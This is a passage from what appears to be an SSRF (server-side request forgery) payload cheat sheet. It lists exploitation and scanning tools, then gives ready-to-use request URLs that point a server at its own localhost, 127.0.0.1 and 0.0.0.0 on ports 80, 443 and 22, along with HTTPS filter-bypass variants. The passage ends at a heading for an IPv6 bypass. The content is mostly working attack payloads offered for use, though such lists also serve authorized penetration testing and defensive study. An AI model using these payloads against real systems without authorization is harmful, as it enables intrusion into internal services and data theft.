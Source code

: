 
## Tools

- [swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap) - Automatic SSRF fuzzer and exploitation tool
- [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus) - Generates gopher link for exploiting SSRF and gaining RCE in various servers
- [In3tinct/See-SURF](https://github.com/In3tinct/See-SURF) - Python based scanner to find potential SSRF parameters
- [teknogeek/SSRF Sheriff](https://github.com/teknogeek/ssrf-sheriff) - Simple SSRF-testing sheriff written in Go
- [assetnote/surf](https://github.com/assetnote/surf) - Returns a list of viable SSRF candidates
- [dwisiswant0/ipfuscator](https://github.com/dwisiswant0/ipfuscator) - A blazing-fast, thread-safe, straightforward and zero memory allocations tool to swiftly generate alternative IP(v4) address representations in Go.
- [Horlad/r3dir](https://github.com/Horlad/r3dir) - a redirection service designed to help bypass SSRF filters that do not validate the redirect location. Intergrated with Burp with help of Hackvertor tags


## Payloads with localhost

* Using `localhost`
  ```powershell
  http://localhost:80
  http://localhost:443
  http://localhost:22
  ```
* Using `127.0.0.1`
  ```powershell
  http://127.0.0.1:80
  http://127.0.0.1:443
  http://127.0.0.1:22
  ```
* Using `0.0.0.0`
  ```powershell
  http://0.0.0.0:80
  http://0.0.0.0:443
  http://0.0.0.0:22
  ```


## Bypassing filters

### Bypass using HTTPS

```powershell
https://127.0.0.1/
https://localhost/
```

### Bypass localhost with [::]
